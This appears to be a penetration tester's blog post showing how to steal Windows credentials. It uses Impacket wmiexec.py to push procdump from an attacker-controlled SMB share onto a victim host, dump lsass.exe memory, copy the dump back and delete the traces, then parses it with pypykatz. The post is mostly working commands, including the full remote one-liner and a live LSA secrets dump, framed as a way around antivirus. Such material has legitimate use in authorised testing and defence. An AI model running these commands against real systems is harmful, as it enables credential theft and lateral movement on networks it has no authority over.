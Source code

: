 ```yaml
---
published: true
comments: true
---
```

I rarely use Mimikatz for more than parsing memory dumps of lsass.exe taken with procdump64.exe. I'm just not going to risk running Mimikatz from CrackMapExec or uploading Mimikatz to the client's environment when I can bypass antivirus by using wmiexec.py from Impacket to upload procdump64.exe, run the command to make a dump file from lsass.exe, and download it to be processed offline using Mimikatz on a system that I control. If this sounds like a lot of extra steps, it is. This post is about using a Python3 library to save yourself some work when processing those lsass.exe dump file to get credentials.

## About pypykatz

Mimikatz implementation in pure Python. -optimized for offline persing, but has options for live credential dumping as well. Runs on all OS's which support python>=3.6

## Installation

Via pip: 


    pip3 install pypykatz

Via Github:

```
pip3 install minidump minikerberos asn1crypto
git clone https://github.com/skelsec/pypykatz.git
cd pypykatz
python3 setup.py install
```

## Usage:

```
usage: pypykatz [-h] [-v] [--json] [-e] [-o OUTFILE] [-k KERBEROS_DIR]
                {minidump,live,rekall} ...

Pure Python implementation of Mimikatz --or at least some parts of it--

positional arguments:
  {minidump,live,rekall}
                        commands
    minidump            Get secrets from LSASS minidump file
    live                Get secrets from live machine
    rekall              Get secrets from memory dump

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose
  --json                Print credentials in JSON format
  -e, --halt-on-error   Stops parsing when a file cannot be parsed
  -o OUTFILE, --outfile OUTFILE
                        Save results to file (you can specify --json for json
                        file, or text format will be written)
  -k KERBEROS_DIR, --kerberos-dir KERBEROS_DIR
                        Save kerberos tickets to a directory.
```

## Examples:

Parsing minidump file of the LSASS process:

```
pypykatz minidump <minidump file>
```



Dumping LIVE system LSA secrets:

```
pypykatz live lsa
```

## Thoughts on using pypykatz vs. Mimikatz for parsing creds from lsass.exe memory dumps

Instead of running wmiexec with multiple commands to upload procdump, dump lsass.exe, download the dump file, and copy that over to a Windows host to use Mimikatz: 

Install pypykatz:

`pip3 install pypykatz`

Run Impacket smbserver.py:

`./smbserver.py -smb2support <share name> <path to dir where you have procdump64.exe>`

Run Impacket wmiexec.py:

`./wmiexec.py <domain>/<username>:<password>@<Victim IP> 'copy \\<Attacker IP>\<share>\procdump64.exe . & procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp & copy lsass.dmp \\<Attacker IP>\<share>\ & del lsass.dmp & del procdump64.exe'`

Dump creds from lsass.dmp:

`pypykatz minidump lsass.dmp`

Note: I've seen pypykatz error out on some editions of Windows 10. If this happens, you'll have to copy that lsass.dmp over to a Windows system under your control and use Mimikatz.
